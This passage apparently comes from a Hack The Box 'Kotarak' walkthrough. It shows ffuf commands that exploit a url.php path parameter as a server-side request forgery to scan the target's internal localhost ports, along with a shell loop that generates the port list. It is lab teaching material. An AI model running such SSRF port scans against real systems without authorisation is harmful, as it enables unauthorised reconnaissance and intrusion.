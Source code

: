 We can fuzz the port numbers, and test for responses.

I create a list of numbers to use with the fuzzer:

```
for i in $(seq 1 60000);do echo $i >> numbers.txt;done
```

<hr width="250" size="6">


<h3>Ffuf</h3>

[ffuf](https://github.com/ffuf/ffuf) is a great new fuzzer that's written in the `go` language, and it is fast!


`ffuf -w ./numbers.txt -u  http://kotarak.htb:60000/url.php?path=http://localhost:FUZZ`

The output moves quickly, the list is huge, and while we can see that it is successful in detecting content on many of the ports,
it is going to be a pain to go through.

I notice that the default filesize for a 'miss' is `2`, if we filter out those results by refining the command, we can get results showing only those ports with content.

`ffuf -w ./numbers.txt -u  http://kotarak.htb:60000/url.php?path=http://localhost:FUZZ -fs 2`


![fuff](/assets/img/kotarak/kotarak-ffuf2.png)

Impressive tool!
